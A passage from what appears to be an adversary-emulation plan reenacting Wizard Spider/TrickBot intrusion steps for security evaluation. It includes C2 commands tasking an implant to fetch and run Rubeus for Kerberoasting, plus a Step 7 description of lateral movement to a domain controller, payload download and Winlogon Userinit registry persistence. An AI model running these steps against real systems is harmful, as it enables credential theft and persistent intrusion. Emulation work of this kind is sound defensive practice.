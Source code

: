 
### :biohazard: Procedures

```bash
# Wizard Spider has used Rubeus, MimiKatz Kerberos module, and the Invoke-Kerberoast cmdlet to steal AES hashes.[6][3][2][8]

./evalsC2client.py --set-task TrickBot-Implant "get-file rubeus.exe"
```

```bash
./evalsC2client.py --set-task TrickBot-Implant "rubeus.exe kerberoast /domain:oz.local"
```

### :microscope: Cited Intelligence

* https://us-cert.cisa.gov/ncas/alerts/aa20-302a
* https://www.fireeye.com/blog/threat-research/2020/10/kegtap-and-singlemalt-with-a-ransomware-chaser.html
* https://thedfirreport.com/2020/10/08/ryuks-return/
* https://thedfirreport.com/2020/11/05/ryuk-speed-run-2-hours-to-ransom/

<br>

## Step 7 - Lateral Movement to DC 

:microphone: `Voice Track:`

In step 7 Wizard Spider RDP's into the domain controller as user vfleming.

Wizard Spider dowloads a TrickBot variant to the DC using PowerShell's `Invoke-WebRequest` command.

Wizard Spider then establishes registry persistence to execute Trickbot when vflemming logs in.

Lastly, Wizard Spider enumerates the domain using the `adfind` utility.

```
Compromised user info:

User:	vfleming@oz.local

System: 10.0.0.4 / wizard

File Write (Tribot EXE variant): %AppData%\uxtheme.exe

Registry Write:  HKCU:\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\

Key: Userinit

Value: Userinit.exe, $env:AppData\uxtheme.exe
```

---

### :biohazard: Procedures
